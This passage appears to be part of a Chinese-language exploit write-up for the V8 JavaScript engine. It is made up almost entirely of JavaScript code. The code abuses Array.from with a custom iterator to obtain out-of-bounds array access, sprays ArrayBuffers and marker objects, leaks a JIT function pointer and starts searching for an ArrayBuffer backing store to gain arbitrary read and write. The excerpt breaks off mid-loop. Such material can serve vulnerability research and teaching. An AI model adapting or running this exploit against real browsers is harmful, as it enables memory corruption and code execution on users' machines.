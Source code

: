 ```

// 多次运行函数，使得函数被jit编译
for (let i = 0;i &lt; 1000;i++) `{`
    func_to_overwrite();
`}`

%DebugPrint(func_to_overwrite);

// 让oobArray为double类型的，方便读取
let oobArray = [1.1];
let maxSize = 1028 * 8;
Array.from.call(function() `{` return oobArray `}`, `{`[Symbol.iterator] : _ =&gt; (
  `{`
    counter : 0,
    next() `{`
      let result = this.counter++;
      if (this.counter &gt; maxSize) `{`
        // 注意这里length不能为0，会报错，可能原因是为0被回收之后被重新分配了
        // （没有深究原因）
        oobArray.length = 5;
        for (let i = 0;i &lt; 100;i++) `{`
            bufs.push(new ArrayBuffer(0x1234));
            // 这里用0xdead标志后面的属性为jit函数对象的指针
            let obj = `{`'a': 0x4321, 'b': func_to_overwrite`}`;
            //%DebugPrint(obj);
            objs.push(obj);
        `}`
        return `{`done: true`}`;
      `}` else `{`
        return `{`value: result, done: false`}`;
      `}`
    `}`
  `}`
) `}`);

let jit_func_obj_ptr = 0;

// 现在我们可以越界访问了
// 首先需要泄露jit对象指针的地址
for (let i = 0;i &lt; maxSize; i++) `{`
    // 越界搜索obj的标志
    let val = Int64.fromDouble(oobArray[i]);
    if (val == 0x432100000000) `{`
        console.log('found');
        jit_func_obj_ptr = Int64.fromDouble(oobArray[i + 1]) - 1;
        console.log('jit func pointer: ' + jit_func_obj_ptr);
        break;
    `}`
`}`

if (jit_func_obj_ptr === 0) `{`
    throw new Error("jit func not found");
`}`

// 接下来需要更改backing store导致任意读写

let changed_idx = 0;

// 同样需要先找到我们能更改的值
for (let i = 0;i &lt; maxSize; i++) `{`
    let val = Int64.fromDouble(oobArray[i]);
    if (val == 0x123400000000) `{`
        console.log('found array buffer');
```